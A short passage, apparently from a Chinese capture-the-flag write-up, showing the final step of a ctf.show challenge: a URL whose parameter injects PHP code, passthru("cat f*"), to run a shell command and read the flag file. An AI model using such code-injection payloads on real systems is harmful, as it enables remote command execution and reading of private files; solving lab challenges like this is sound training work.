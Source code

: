 <figure><img src="../.gitbook/assets/image 6.png" alt=""><figcaption></figcaption></figure>

可以发现是成功的，我们还是按照上面的步骤继续执行。得到flag。

```php
http://2f1af390-2e2d-4d53-b104-a31ed9917f2b.challenge.ctf.show/?c=passthru("cat f*");
```

<figure><img src="../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>
